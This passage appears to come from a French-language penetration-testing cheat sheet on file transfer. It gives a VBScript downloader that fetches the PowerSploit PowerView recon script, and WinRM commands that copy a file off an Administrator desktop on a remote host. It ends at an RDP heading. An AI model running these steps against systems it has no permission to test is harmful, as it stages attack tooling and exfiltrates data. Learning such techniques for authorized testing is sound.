 ## VBSCRIPT

### DOWNLOAD

Créer le script
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

Download
```powershell
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```


---

# WINRM DATA TRANSFER

Confirmer que le port est ouvert
```powershell
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

Créer remoting session
```powershell
$Session = New-PSSession -ComputerName DATABASE01
```

Download
```powershell
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

Upload
```powershell
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```


---

# RDP DATA TRANSFER
